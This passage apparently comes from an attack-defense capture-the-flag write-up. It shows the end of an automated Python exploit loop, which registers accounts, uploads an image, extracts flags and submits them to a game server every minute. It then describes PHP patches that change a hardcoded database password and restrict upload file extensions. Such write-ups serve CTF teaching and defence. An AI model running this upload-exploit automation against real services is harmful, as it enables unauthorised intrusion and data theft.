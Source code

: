 ```python
        try:
            creds = gen_random_creds()
            username, password = creds
            
            register(ip, creds, session)
            login(ip, creds, session)

            exploit_data = attack_data[ip]
            username_hash = hashlib.md5(username.encode('utf-8')).hexdigest()
            upload_image(ip, session)

            flags_data = exploit_image(ip, session, exploit_data, username_hash)
            flags.extend(flags_data)

        except Exception as e:
            pass

    send_lines_to_server("10.0.13.37", 1337, flags)

while True:
    time.sleep(60)
    exploit()
```

## Service Patch Implementation

To secure the application, several patches were implemented. One critical patch involved updating the hardcoded MySQL password in `config.php`:

```php
// old
define('DB_PASSWORD', 'somepassword');

// new
define('DB_PASSWORD', 'REDACTED');
```

Additionally, two measures were introduced to prevent PHP file uploads:

### Extension Check

```php
$destination = $upload_dir . $_FILES["image"]["name"];

$file_name = basename($_FILES["image"]["name"]);
$file_ext = strtolower(pathinfo($file_name, PATHINFO_EXTENSION));
$allowed_exts = ["jpg", "jpeg", "png"];

if (!in_array($file_ext, $allowed_exts)) {
    echo "Error: Invalid file extension.";
    exit();
}

$mime_check = getimagesize($_FILES["image"]["tmp_name"])["mime"];
```

